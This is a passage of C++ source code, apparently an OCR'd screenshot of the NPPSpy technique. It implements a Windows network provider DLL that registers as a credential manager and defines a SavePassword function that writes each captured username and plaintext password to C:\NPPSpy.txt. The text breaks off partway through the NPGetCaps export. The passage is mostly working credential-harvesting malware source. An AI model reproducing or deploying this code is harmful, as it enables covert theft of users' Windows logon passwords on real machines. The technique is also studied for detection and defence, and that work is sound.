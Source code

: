 ```cpp
{
    MsV1_0InteractiveLogon = 2,
    MsV1_0Lm20Logon,
    MsV1_0NetworkLogon,
    MsV1_0SubAuthLogon,
    MsV1_0WorkstationUnlockLogon = 7,
    MsV1_0S4ULogon = 12,
    MsV1_0VirtualLogon = 82,
    MsV1_0NoElevationLogon = 83,
    MsV1_0LuidLogon = 84,
} MSV1_0_LOGON_SUBMIT_TYPE, * PMSV1_0_LOGON_SUBMIT_TYPE;

// from NTSecAPI.h
typedef struct _MSV1_0_INTERACTIVE_LOGON
{
    MSV1_0_LOGON_SUBMIT_TYPE MessageType;
    UNICODE_STRING LogonDomainName;
    UNICODE_STRING UserName;
    UNICODE_STRING Password;
} MSV1_0_INTERACTIVE_LOGON, * PMSV1_0_INTERACTIVE_LOGON;

void SavePassword(PUNICODE_STRING username, PUNICODE_STRING password)
{
    HANDLE hFile;
    DWORD dwWritten;

    hFile = CreateFile(TEXT("C:\\NPPSpy.txt"),
        GENERIC_WRITE,
        0,
        NULL,
        OPEN_ALWAYS,
        FILE_ATTRIBUTE_NORMAL,
        NULL);

    if (hFile != INVALID_HANDLE_VALUE)
    {
        SetFilePointer(hFile, 0, NULL, FILE_END);
        WriteFile(hFile, username->Buffer, username->Length, &dwWritten, 0);
        WriteFile(hFile, L" -> ", 8, &dwWritten, 0);
        WriteFile(hFile, password->Buffer, password->Length, &dwWritten, 0);
        WriteFile(hFile, L"\r\n", 4, &dwWritten, 0);
        CloseHandle(hFile);
    }
}

__declspec(dllexport)
DWORD
APIENTRY
NPGetCaps(
    DWORD nIndex
)
{
    switch (nIndex)
    {
        case WNNC_SPEC_VERSION:
            return WNNC_SPEC_VERSION51;

        case WNNC_NET_TYPE:
            return WNNC_CRED_MANAGER;

        case WNNC_START:
            return WNNC_WAIT_FOR_START;

```